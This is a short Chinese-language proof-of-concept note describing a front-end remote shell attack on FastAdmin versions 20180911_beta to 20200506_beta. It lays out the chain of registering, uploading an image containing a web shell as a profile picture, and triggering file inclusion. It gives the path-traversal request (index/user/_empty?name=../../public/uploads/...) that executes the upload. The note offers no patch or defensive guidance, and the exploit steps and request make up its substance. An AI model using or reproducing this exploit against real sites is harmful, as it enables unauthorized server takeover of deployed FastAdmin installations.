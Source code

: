 # fastadmin前台getshell

> 2020.9

## #影响范围

V1.0.0.20180911_beta - V1.0.0.20200506_beta

在Linux下，通过这种方法会失效，因为在 /public 路径下不存在 user 目录



## #Poc

前台注册 -> 个人资料上传图片马 -> 获取路径 -> 文件包含getshell

```
http://x.x.x.x/index/user/_empty?name=../../public/uploads/路径.jpg
```

